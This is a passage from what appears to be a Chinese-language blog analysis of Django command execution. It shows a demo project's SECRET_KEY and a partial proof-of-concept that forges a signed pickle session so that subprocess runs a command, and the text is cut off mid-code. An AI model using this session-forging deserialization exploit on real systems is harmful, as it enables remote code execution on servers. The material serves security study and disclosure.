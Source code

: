 ![](/images/articles/2015-09-12-django-command-execution-analysis/4.png)

此处 `SECRET_KEY` 值为：`zur%eblm54)e)ox&-xzbwonmx$=+ijh3dl&6m-mx+1^y(-i09y`

![](/images/articles/2015-09-12-django-command-execution-analysis/5.png)

在用户访问管理页面时，后端尝试读取了 session['admin'] 的值，根据文章第二部分的分析结合此处的模拟环境，我们可以通过得到的 `SECRET_KEY` 来构造一个恶意的序列化字串来执行任意命令。

示例 PoC 如下：

```python
# coding: utf-8
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
from django.conf import settings

settings.configure(SECRET_KEY='zur%eblm54)e)ox&-xzbwonmx$=+ijh3dl&6m-mx+1^y(-i09y')  # SECRET_KEY 参数的值为 demo Django 项目的 SECRET_KEY 值


class CreateTmpFile(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.call,
                (['touch',
                  '/tmp/vulnerable'],))


sess = signing.dumps(
```